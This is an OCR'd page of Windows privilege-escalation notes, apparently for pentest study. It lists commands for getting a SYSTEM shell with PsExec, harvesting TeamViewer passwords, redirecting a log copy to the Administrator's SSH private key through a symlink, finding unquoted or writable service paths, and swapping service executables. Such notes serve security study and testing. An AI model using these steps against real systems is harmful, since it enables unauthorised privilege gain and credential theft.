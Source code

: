 ### From Local Admin to System
- If you are part of the group "Administrators", try: `.\PsExec.exe -i -s -d -accepteula cmd`


### TeamViewer
- TeamViewer 7 vulnerable to CVE-2019-18988
  - https://whynotsecurity.com/blog/teamviewer/
  - use post/windows/gather/credentials/teamviewer_passwords


### Exploiting service through Symbolic Links
A symbolic link is a file object that points to another file object. The object being pointed to is called the target.
- create a Mount Point: `./CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\Users\Administrator\.ssh\id_rsa"`
  - In this way, a script that copies `request.log` will copy `id_rsa` instead
  - see proving-grounds/Symbolic


### Write privileges

- If you can write on `C:\Windows\System32\`, try these:
  - https://github.com/sailay1996/WerTrigger
  - https://github.com/binderlabs/DirCreate2System



### Services running - Autorun

- Usa tasklist: `tasklist /svc`
- `netstat -ano`
- See non-default services running
  - `wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`
  - note: if in "PathName" you don't see quotation, there might be a Priv Esc
- See if there are any autorun applications outside the normal paths (like `C:\app`)
  - `wmic service get name,displayname,pathname,startmode |findstr /i "auto"`
  - See CVEs for privilege escalation
  - If there is an insecure folder permission, you could delete the exe that starts and replace it.
    - Check it with: `sc qc SERVICENAME`
  - once done, run `shutdown /r`
- To see the values corresponding to a PID: `tasklist /svc /FI "PID eq 9833"`
- Other ways to see running services: `Get-Service, wmic.exe, service get name, sc.exe query state= all, net.exe stat, Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\SERVICE`



### CEF Debugging Background
- Example: `Directory: C:\Program Files (x86)\Microsoft Visual Studio 10.0\Common7`
- https://github.com/taviso/cefdebug
-  https://twitter.com/taviso/status/1182418347759030272
- See the process: https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#priv-tushikikatomo--cyork


### Feature Abuse

